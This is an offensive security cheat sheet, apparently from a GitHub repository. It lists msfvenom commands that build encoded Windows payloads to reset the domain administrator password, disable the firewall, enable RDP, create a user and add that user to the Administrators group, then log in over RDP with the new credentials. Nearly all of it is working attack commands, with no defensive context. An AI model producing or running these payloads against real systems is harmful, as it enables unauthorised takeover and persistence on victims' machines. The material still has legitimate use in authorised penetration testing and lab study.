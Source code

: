 #### POC:
```bash - kali
msfvenom -p windows/x64/exec CMD="C:\windows\system32\calc.exe" -f exe > poc.exe
```


```bash - kali
msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Change administrator's password:
```bash - kali
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

#### Disable Firewall:
```bash - kali
msfvenom -p windows/x64/exec CMD="netsh Advfirewall set allprofiles state off" -f exe > disableFirewall.exe
```

```bash - kali
msfvenom -p windows/exec CMD="netsh Advfirewall set allprofiles state off" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Enable RDP:
```bash - kali
msfvenom -p windows/x64/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' -f exe > RDP.exe
```

```bash - kali
msfvenom -p windows/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Create new user:
```bash - kali
msfvenom -p windows/x64/exec CMD="net user foobar Pass123 /add" -f exe > newUser.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net user foobar Pass123 /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Adding new user to admin group:
```bash - kali
msfvenom -p windows/x64/exec CMD="net localgroup Administrators foobar /add" -f exe > add2Admin.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net localgroup Administrators foobar /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $KALI
```

```bash - kali
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$KALI
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $TARGET
```

```
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$TARGET
```